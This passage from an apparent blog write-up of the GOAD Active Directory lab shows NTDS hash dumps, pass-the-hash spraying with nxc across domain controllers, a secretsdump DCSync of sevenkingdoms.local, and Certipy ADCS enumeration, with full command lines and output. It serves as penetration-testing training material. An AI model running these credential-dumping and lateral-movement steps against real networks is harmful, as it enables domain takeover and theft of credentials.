NTDSUTIL    10.2.10.11      445    WINTERFELL       Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:dcde0a27d7168720846cc3ecec02b60e:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5341daf0b6a384b67440a50f0df0eb37:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       krbtgt:502:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       localuser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:fc58e6ddb73769bfd7a05fbb1ff11f89:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] Dumped 37 NTDS hashes to /home/kali/.nxc/logs/WINTERFELL_10.2.10.11_2024-08-09_150449.ntds of which 31 were added to the database
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] To extract only enabled accounts from the output file, run the following command:
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] grep -iv disabled /home/kali/.nxc/logs/WINTERFELL_10.2.10.11_2024-08-09_150449.ntds | cut -d ':' -f1
```

BAM! DA in child domain achieved! I can now also impersonate any user within the domain. With the first domain compromised, it was time to spread fire to the next.

## Second Domain Compromise

<br>
<div style="background-color: #F0C4B49C; padding: 5px; border-radius: 10px">
	<p style="color: #000000">
		<b style="color: #000000">Warning:</b> The method I used to compromise the remaining two domains was unintended by the author of GOAD. It was an artifact due to the Ludus + GOAD implementation. However, it does serve as a realistic scenario that I have ran into myself whilst delivering penetration tests.
        <br>
        <b style="color: #000000">Check the following “Alternative Path” sections of this blog for compromise methods which were meant to be part of GOAD.
</b>
	</p>
</div>
<br>

### Password Re-use

Targeting a new domain simply means that I go back to square one in terms of my methodology. As I mentioned previously, that includes going for low hanging fruit first. In the case of domain -> domain compromise, I will often start off with testing for password re-use across domain admin accounts. It is very common for service accounts or admin accounts to re-use the same password across two or more domains. Blame the human nature for this one, we are lazy and convenience always wins.

In this case, since we do not have that many users to test, I will just check them all. To do so, I saved the users from my NTDS dump to `users.txt` file. Then I saved the hashes for each user to `pass.txt`.

***Note: if you are following along: make sure to keep the user and its corresponding hash on the same line within both files, i.e. user on line 1 in users.txt should have its NTLM hash on line 1 in pass.txt.***

After constructing these files, I could blast them at the `SEVENKINGDOMS.LOCAL` DC and see which one reports the `Pwn3d!` flag, if any. I used Netexec for this, and made sure to specify the `--no-bruteforce` flag which will perform the <b>user1 -> pass1, user2 -> pass2</b> type of spray. I also slapped on `--continue-on-success` just in case I get multiple valid creds, as I did not want it to stop after finding just the first valid pair.

```
# nxc smb 10.2.10.10 -u users.txt -H pass.txt --no-bruteforce --continue-on-success

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\KINGSLANDING$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\localuser:8846f7eaee8fb117ad06bdd830b7586c (Pwn3d!)
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\WINTERFELL$:dcde0a27d7168720846cc3ecec02b60e STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\localuser:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\NORTH$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\SEVENKINGDOMS$:1a9fa36e47adf4e38aadca283cc7b499 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\CASTELBLACK$:fc58e6ddb73769bfd7a05fbb1ff11f89 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\ESSOS$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\arya.stark:4f622f4cd4284a887228940e2ff4e709 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\tywin.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\jaime.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\eddard.stark:d977b98c6c9282c5c478be1d97b237b8 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\catelyn.stark:cba36eccfd9d949c73bc73715364aff5 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\cersei.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\robb.stark:831486ac7f26860c9e2f51ac91e1a07a STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\tyron.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\sansa.stark:b777555c2e2e3716e075cc255b26c14d STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\robert.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_RESTRICTION
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\brandon.stark:84bbaa1c58b7f69d2192560a3f932129 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\joffrey.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\rickon.stark:7978dc8a66d8e480d9a86041f8409560 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\renly.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\hodor:337d2667505c203904bd899c6c95525e STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\stannis.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\jon.snow:b8d76e56e9dac90539aff05e3ccb1755 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\petyer.baelish:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\samwell.tarly:f5db9e027ef824d029262068ac826843 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\lord.varys:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\jeor.mormont:6dccf1c567c56a40e56691a723a49664 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\sql_svc:84a5092f53390ea48d660be52b93b804 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\maester.pycelle:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
```

Ah ha! `localuser` account employed the same password as the one we found in `NORTH` domain, and it has DA rights too! We can also confirm this in Bloodhound:

<div style="text-align:center"></div>

<br>
<div style="background-color: #F0C4B49C; padding: 5px; border-radius: 10px">
	<p style="color: #000000">
		This is the unintended configuration I mentioned earlier. The `localuser` account does not normally exist within GOAD. It is an account created by Ludus to administer each device. However, if this was a real-life scenario and I was a threat actor, I would not care what is and is not supposed to be there. I use what I can and I achieve the goal I want. So just FYI.
	</p>
</div>
<br>

Well, with a DA account compromised, I ran `secretsdump.py` this time, along with the `-just-dc-ntlm` argument to have the tool only spit out NTLM hashes. I could leave this argument out if I was interested in also getting AES hashes, but I am not in this case.

```
# secretsdump.py sevenkingdoms.local/localuser@10.2.10.10 -hashes :8846f7eaee8fb117ad06bdd830b7586c -just-dc-ntlm -outputfile creds/sevenkingdoms_just_ntlm

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0637ab576c34b0072d09cda7dbc7e667:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:de1956f4d589614b4f90f7f1d445ab23:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
[*] Cleaning up...
```

And just like previously, I can now impersonate any domain account within the SEVENKINGDOMS.LOCAL domain. Now for the last domain, ESSOS.LOCAL.

## Final Domain Compromise

Since password re-use worked against `SEVENKINGDOMS.LOCAL`, there is no way it would work here too, right?

I went ahead and compiled a new set of `users.txt` and `pass.txt` files containing users and hashes from both `NORTH` and `SEVENKINGDOMS` domains and sent them off against an `ESSOS` DC. Same method as before.

```
# nxc smb 10.2.10.12 -u users.txt -H pass.txt --no-bruteforce --continue-on-success

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Administrator:c66d72021a2d4744409969a581a1705e STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\arya.stark:4f622f4cd4284a887228940e2ff4e709 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\brandon.stark:84bbaa1c58b7f69d2192560a3f932129 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\CASTELBLACK$:fc58e6ddb73769bfd7a05fbb1ff11f89 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\catelyn.stark:cba36eccfd9d949c73bc73715364aff5 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\cersei.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\cersei.lannister:c247f62516b53893c7addcf8c349954b STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\eddard.stark:d977b98c6c9282c5c478be1d97b237b8 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\ESSOS$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\ESSOS$:e856402d05ac62577da64cf56f95bd69 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Guest:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\hodor:337d2667505c203904bd899c6c95525e STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jaime.lannister:12e3795b7dedb3bb741f2e2869616080 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jaime.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jeor.mormont:6dccf1c567c56a40e56691a723a49664 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\joffrey.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\joffrey.baratheon:3b60abbc25770511334b3829866b08f1 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jon.snow:b8d76e56e9dac90539aff05e3ccb1755 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\KINGSLANDING$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\KINGSLANDING$:de1956f4d589614b4f90f7f1d445ab23 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\krbtgt:0637ab576c34b0072d09cda7dbc7e667 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\localuser:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [+] essos.local\localuser:8846f7eaee8fb117ad06bdd830b7586c (Pwn3d!)
SMB         10.2.10.12      445    MEEREEN          [+] essos.local\localuser:8846f7eaee8fb117ad06bdd830b7586c (Pwn3d!)
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\lord.varys:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\lord.varys:52ff2a79823d81d6a3f4f8261d7acc59 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\maester.pycelle:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\maester.pycelle:9a2a96fa3ba6564e755e8d455c007952 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\NORTH$:1a9fa36e47adf4e38aadca283cc7b499 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\NORTH$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\petyer.baelish:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\petyer.baelish:6c439acfa121a821552568b086c8d210 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\renly.baratheon:1e9ed4fc99088768eed631acfcd49bce STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\renly.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\rickon.stark:7978dc8a66d8e480d9a86041f8409560 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\robb.stark:831486ac7f26860c9e2f51ac91e1a07a STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\robert.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\robert.baratheon:9029cf007326107eb1c519c84ea60dbe STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\samwell.tarly:f5db9e027ef824d029262068ac826843 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\sansa.stark:b777555c2e2e3716e075cc255b26c14d STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\SEVENKINGDOMS$:1a9fa36e47adf4e38aadca283cc7b499 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [+] essos.local\sql_svc:84a5092f53390ea48d660be52b93b804
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\stannis.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\stannis.baratheon:d75b9fdf23c0d9a6549cff9ed6e489cd STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\tyron.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\tyron.lannister:b3b3717f7d51b37fb325f7e7d048e998 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\tywin.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\tywin.lannister:af52e9ec3471788111a6308abff2e9b7 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\WINTERFELL$:dcde0a27d7168720846cc3ecec02b60e STATUS_LOGON_FAILURE
```

Well, well, well. Successful authentication with `localuser` once again, also with DA-level permissions. The `SQL_SVC` account also authenticated successfully, which would be something I would explore if I did not have such good luck with the localuser account.

And just like that, I am done!

But wait that seemed way too easy, right? Well yeah. The path I took is probably the simplest in this case and it does not offer exposure to the various other attacks that exist within Active Directory. Due to this, I dug around a little bit and explored other paths to compromise (also a common thing you will do on a penetration test as it adds additional value to your report/engagement).

## Alternaive Path - Second Domain Compromise

<b>Rewind!!!!</b>

For this alternative path to compromising the second domain (after our initial domain compromise), I went back to the moment right after I dumped the hashes for `NORTH` domain. <u>Let’s pretend localuser did not exist.</u>

In the case of a child-parent domain situation, I would immediately attempt to perform the SID History injection attack; however, it appears that the `krbtgt` account within `NORTH` domain is disabled, which is uncommon in a real world scenario. So I had to find another way out of `NORTH`.

### ADCS Enumeration

Attacking ADCS is one of my favorite ways of getting DA, so I proceeded to check Bloodhound for the `CERT PUBLISHERS` groups to see if they hold any members. These members would represent ADCS servers within each domain. Bloodhound confirmed that hosts `KINGSLANDING.SEVENKINGDOMS.LOCAL` and `BRAAVOS`.`ESSOS.LOCAL` fit this description.

<div style="text-align:center"></div>

<div style="text-align:center"></div>

To find out more about these ADCS server and their configured templates, I employed the Certipy utility. It enumerated all certificate templates and their configuration.

```
# certipy find -u eddard.stark@north.sevenkingdoms.local -hashes :d977b98c6c9282c5c478be1d97b237b8 -target 10.2.10.10 -ns 10.2.10.10 -output recon/sevenkingdoms_adcs

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'SEVENKINGDOMS-CA' via CSRA
[!] Got error while trying to get CA configuration for 'SEVENKINGDOMS-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'SEVENKINGDOMS-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'SEVENKINGDOMS-CA'
[*] Saved BloodHound data to 'recon/sevenkingdoms_adcs_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[-] Could not find user 'EDDARD.STARK'
[-] Got error: 'NoneType' object has no attribute 'get'
[-] Use -debug to print a stacktrace

# certipy find -u eddard.stark@north.sevenkingdoms.local -hashes :d977b98c6c9282c5c478be1d97b237b8 -target 10.2.10.12 -ns 10.2.10.12 -output recon/essos_adcs

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 38 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certificate templates
[*] Trying to get CA configuration for 'ESSOS-CA' via CSRA
[!] Got error while trying to get CA configuration for 'ESSOS-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
